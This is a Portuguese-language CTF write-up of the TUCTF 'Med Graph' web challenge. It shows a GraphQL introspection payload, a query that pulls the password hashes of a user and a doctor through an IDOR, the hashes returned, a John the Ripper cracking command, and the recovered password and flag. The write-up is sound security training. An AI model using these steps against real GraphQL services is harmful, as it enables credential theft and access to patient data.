


# Med Graph

*My startup is launching the next big patient portal, using the hottest new tech! Check it out with our guest account: Demo:TUCTF. We're still in beta, but it's so secure we already have users! Note: This challenge requires no bruteforcing or intense scanning of the application.*

- *Web Exploitation*
- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*

O desafio consiste em um **Insecure Direct Object Reference** ([**IDOR**](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)) no GraphQL. Após acessar o site e se autenticar com as credenciais de visitante fornecidos, é possível identificar uma requisição para um endpoint de GraphQL, passando uma query para obter os dados do usuário.



Podemos então tentar rodar uma query de introspecção para entender um pouco mais do schema do banco de dados. Utilizei essa do [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection).

```js
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

Após rodar a query de introspecção, podemos pegar o resultado e passar no [GraphQL Visualizer](https://nathanrandal.com/graphql-visualizer/) para obter um resultado visual da relação entre as tabelas. Logo podemos perceber que há o campo `password` para o `PacientType` e `DoctorType`.


Podemos então tentar mandar uma query com os campos de senha no usuário e doutor.

```js
{
    userData {
    id
    password
    doctor {
        name
        password
        }
    }
}
```

Como resultado, o servidor nos retorna o hash da senha do usuário atual e do doutor.

```js
{
  "data": {
    "userData": {
      "doctor": {
        "name": "Ivy",
        "password": "e0f109f8bae039c7d27ed30f31985052623349cdcabf2024c2f81b01a8ffaf47"
      },
      "id": 1018,
      "password": "492d99acf39eb7d31f03a7ab0326943b13f47d3c16c907b5e7659e3cc9c5b46f"
    }
  }
}
```

O hash é um `SHA-256`, podemos utilizar o [`John the Ripper`](https://www.openwall.com/john/) com a wordlist do `rockyou.txt` para achar a senha do doutor.

```bash
echo "e0f109f8bae039c7d27ed30f31985052623349cdcabf2024c2f81b01a8ffaf47" > password.txt
john password.txt -w usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --format=RAW-SHA256
```

Obtemos que a senha é `madjac`. Assim podemos logar com a conta `Ivy:madjac`, obtendo a flag.

```
TUCTF{w3_7h1nk_1n_6r4ph5}
```

